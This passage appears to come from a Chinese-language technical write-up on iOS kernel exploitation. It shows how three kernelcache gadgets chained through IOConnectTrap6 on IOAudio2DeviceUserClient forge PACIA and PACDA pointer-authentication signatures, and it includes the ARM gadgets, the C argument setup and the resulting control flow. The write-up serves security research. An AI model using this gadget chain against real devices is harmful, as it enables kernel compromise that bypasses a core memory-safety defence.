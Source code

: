 所以似乎我们从中部进入函数不会有太多的不良影响，在这里我们只需要控制 x9 作为指针，x10 作为 context，x2 控制写入的内存区域，即可实现一个 PACIA & PACDA 的签名伪造。

但是基于 IOAudio2DeviceUserClient 的 IOConnectTrap6 我们只能控制 x1 ~ x6，无法直接控制 x9 和 x10，这里就需要我们寻找更多的 Gadget 来实现组合调用来控制 x9 和 x10。

随后 Brandon Azad 在 kernelcache 中又搜索到了几个可利用的 Gadget，截止到目前我们总共有 3 个可用的 Gadget：
```arm
; G1
MOV         X0, X4
BR          X5

; G2
MOV         X9, X0
BR          X1

; G3
MOV         X10, X3
BR          X6
```

G1 使我们能通过 x4 控制 x0，再通过 G2 可将 x0 写入 x9，最后通过 G3 将 x3 写入 x10，G1 -> G2 通过 X5 指向 G2 实现，G2 - > G3 通过 X1 指向 G3 实现，最后通过 x6 即可跳转到包含 PACIA & PACDA 的 Gadget，此时 x2, x9, x10 均已间接填入合适的参数，因此可以完成一个 PACIA & PACDA Forgery。

上述调用环环相扣，且不能有任何寄存器上的重叠，否则将无法有效地准备参数，我们难以想象找到这么一组 Gadget 耗费了多么大的精力，在这里向大佬致敬。基于上述讨论，我们以 G1 为 `IOTrap->func` 的入口点，如下准备 IOConnectTrap6 的参数：
```c
trap->func = paciza(G1);
arg1 = x1 = G3;
arg2 = x2 = buffer_to_save_pacxad_pointer;
arg3 = x3 = context;
arg4 = x4 = pointer;
arg5 = x5 = G2;
arg6 = x6 = sub_FFFFFFF007B66C48_PACXA_ENTRY
```

这会形成一个链式调用，控制流如下：
```arm
MOV         X0, X4 
BR          X5  
MOV         X9, X0
BR          X1
MOV         X10, X3
BR          X6
PACIA       X9, X10
STR         X9, [X2,#0x100]
; ...
PACDA       X9, X10
STR         X9, [X2,#0xF8]
; ...
```

到这里我们就通过一系列的 Gadget 和 IOConnectTrap6 实现了 PACIA & PACDA 的 Forgery。

## 完美的 kexec
到这里我们已经可以伪造 Key A 的任意签名，但依然没有实现完美的 kexec，此时我们还只能实现 4 个参数的 kexec，其根本原因是我们依赖于 IOAudio2DeviceUserClient 对 getTargetAndTrapForIndex 的默认实现，遗憾的是这一实现中将 target 设置为了 this 从而导致我们无法直接控制 arg0，转向 Gadget 后则会遇到 4 个参数的限制：
```c
IOExternalTrap *IOAudio2DeviceUserClient::getTargetAndTrapForIndex(
       IOAudio2DeviceUserClient *this, IOService **target, unsigned int index)
{
   ...
   *target = (IOService *)this;
   return &this->IOAudio2DeviceUserClient.traps[index];
}
```